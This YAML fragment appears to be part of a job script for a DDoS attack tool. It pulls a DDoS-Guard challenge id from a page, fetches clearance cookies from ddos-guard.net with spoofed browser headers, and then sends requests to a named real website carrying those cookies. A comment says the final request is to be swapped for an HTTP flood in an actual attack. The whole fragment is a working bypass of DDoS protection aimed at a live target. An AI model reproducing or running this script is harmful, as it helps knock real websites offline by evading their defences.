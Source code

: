 ```yaml
          name: check-body
          args:
            value: '{{ index (.Value (ctx_key "data.check")) "response" "body"}}'
        - type: set-value
          name: id
          args:
            value: '{{ index (split (index (split (.Value (ctx_key "data.check-body")) "/.well-known/ddos-guard/id/") 1) "''") 0 }}'
        - type: log
          args:
            text: 'id: {{ .Value (ctx_key "data.id") }}'
        - type: http-request
          name: final-cookies-request
          args:
            request:
              method: GET
              path: 'https://ddos-guard.net/.well-known/ddos-guard/id/{{ .Value (ctx_key "data.id") }}'
              headers:
                User-Agent: '{{ .Value (ctx_key "data.useragent") }}'
                Accept: "image/webp,*/*"
                Accept-Language: "en-US,en;q=0.5"
                Accept-Encoding: "gzip, deflate"
                Cache-Control: "no-cache"
                Referer: https://noxx.is
                Cookie: '{{ cookie_string (index (.Value (ctx_key "data.initial")) "response" "cookies") }}'
                Sec-Fetch-Dest: "script"
                Sec-Fetch-Mode: "no-cors"
                Sec-Fetch-Site: "cross-site"
        - type: set-value
          name: final-cookies
          args:
            value: '{{ cookie_string (index (.Value (ctx_key "data.final-cookies-request")) "response" "cookies") }}'
        - type: log
          args:
            text: 'cookies: {{ .Value (ctx_key "data.final-cookies") }}'
        - type: http-request # replace with packetget/http-flood in actual attack scenario, potentially wrapped into timeout to refresh cookies at regular intervals
          name: actual-request
          args:
            request:
              method: GET
              path: https://noxx.is
              headers:
                User-Agent: '{{ .Value (ctx_key "data.useragent") }}'
                Referer: https://noxx.is
                Cookie: '{{ .Value (ctx_key "data.final-cookies") }}'
        - type: log
          args:
            text: 'body: {{ index (.Value (ctx_key "data.actual-request")) "response" "body" }}'
        - type: log
          args:
            text: 'headers: {{ index (.Value (ctx_key "data.actual-request")) "response" "headers" }}'
        - type: log
          args:
            text: 'cookies: {{ index (.Value (ctx_key "data.actual-request")) "response" "cookies" }}'
```
